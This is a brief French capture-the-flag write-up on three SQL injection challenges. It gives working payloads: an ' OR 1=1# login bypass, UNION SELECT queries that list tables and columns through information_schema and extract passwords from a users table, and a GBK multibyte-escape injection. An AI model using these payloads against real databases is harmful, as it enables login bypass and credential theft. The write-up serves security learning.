 1/3

On tente un payload assez classique : 'OR 1=1#

2/3

Le payload de la première partie ne fonctionne plus, il nous faut donc trouver la table:
'UNION SELECT table_name,null,null,null FROM information_schema.tables -- -
'UNION SELECT column_name,null,null,null FROM information_schema.columns WHERE table_name="users" -- -
'UNION SELECT password,null,null,null FROM users -- -

3/3

Il s'agit d'une faille sql assez rare en CTF, une GBK :
1¿' OR TRUE#
